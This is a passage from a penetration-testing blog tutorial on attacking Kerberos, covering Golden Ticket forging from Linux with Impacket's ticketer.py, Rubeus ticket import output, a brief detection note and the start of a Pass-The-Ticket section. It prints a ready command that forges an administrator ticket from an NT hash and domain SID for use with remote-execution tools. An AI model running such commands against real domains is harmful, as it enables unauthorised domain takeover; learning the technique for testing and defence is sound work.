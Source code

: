 	[*] Action: Import Ticket
	[+] Ticket successfully imported!

	PS C:\Users\m0chan> .\Rubeus.exe klist

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)From Linux

I am going to try my best here to show how you can use Golden Tickets/Inject them etc from Linux but truthfully this is a learning experience for me as I 99% of the time carry this out on Windows bases platforms and/or **Domain-Joined Machines**

***Disclaimer: This is almost a identical copy/paste from Silver Ticket Section besides Syntax***

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)ticketer.py

Here we find ourselves again on a Linux machine wanting to do Windows things so where do we look? You have one guess. Yep you’re right. **Impacket** has a script called `ticketer.py`

I truthfully just learnt about this script after doing some Googling so I am not expert on it’s internals but after a brief overview it appears as if `ticketer.py` allows you to generate `Golden Tickets`

The Syntax for Ticketer is as follows

	m0chan@kali:/scripts/> python ticketer.py -nthash d7e2b80507ea074ad59f152a1ba20458 -domain-sid S-1-5-21-1473643419-774954089-2222323452 -domain m0chanAD.local -id 500 FakeAdmin

	#This will export a .ccache file which can be imported by executing the below command

	KRB5CCNAME=/scripts/m0chan.ccache

	We can then pass the -K switch through with any other Impacket scripts and it will automatically use the cached kerberos ticket, such as PSEXec, WMIExec (i think).

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)Mitigation / Defending Golden Tickets

Golden Tickets are really hard to monitor for as effectively they are just legitamate`TGT` tickets that are signed/encrypted by the official `KRBTGT` account. However by default Mimikatz will generate a golden ticket with a life-span of 10 years but can easily be detected.

* * *

# [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-1) Pass-The-Ticket / Ticket Dump

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)Introduction

You may have already noticed me chatting about `Pass-The-Ticket` above or `PTT` but I figured it required it’s own section as it can be extremely useful for not only importing Silver/Golden tickets into a current session but also dumping current Kerberos tickets

